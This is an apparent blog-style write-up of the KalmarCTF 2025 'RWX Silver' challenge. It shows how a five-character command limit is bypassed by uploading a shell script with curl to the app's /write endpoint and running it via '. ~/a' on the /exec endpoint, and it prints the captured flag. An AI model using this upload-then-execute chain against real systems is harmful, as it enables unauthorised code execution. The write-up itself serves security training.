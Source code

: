 ```yaml
---
title: "RWX Silver"
description: "We give you file read, file write and code execution. But can you get the flag? Apparently that was too much!" 
pubDate: 2025-03-11
ctf: "KalmarCTF 2025"
category: "misc"
author: "sealldev"
section: "CTFs"
image: "images/25-kalmar/icon.png"
---
```


### Initial Look

We are supplied a `rwx-silver.zip`, which extracts to a `handout` folder.

The `app.py` and `would.c` are outlined in [RWX Bronze](25-kalmar-rwxbronze), but with a minor change:
```python
@app.route('/exec')
def execute():
    cmd = request.args.get('cmd', '')
    if len(cmd) > 5:
        return 'Command too long', 400
...
```

The `cmd` input can only be 5 characters this time, so we can't use `sh ~/a` to execute `~/a`.

### The shorter way

We can also use `.` as an alias for `source`, which is used to: "*load any functions file into the current shell script or a command prompt.*": [Source](https://bash.cyberciti.biz/guide/Source_command)

We can supply bash scripts to source and execute their contents like so:
```bash
$ echo "#!/bin/bash" > script.sh
$ echo "whoami" >> script.sh
$ . ./script.sh
user
```

### Repeating the exploit

Now (using the same exploit from bronze):

I make a new script to execute `would`:
```bash
#!/bin/sh
/would you be so kind to provide me with a flag
```

I upload it to `/home/user/a`

```bash
$ curl -X POST "https://<instance>.inst2.chal-kalmarc.tf/write?filename=/home/user/a" -T test.sh
OK
```

Then I execute it with `.`:
```bash
$ curl "https://<instance>.inst2.chal-kalmarc.tf/exec?cmd=.%20~/a"
kalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}
```

Flag: `kalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}`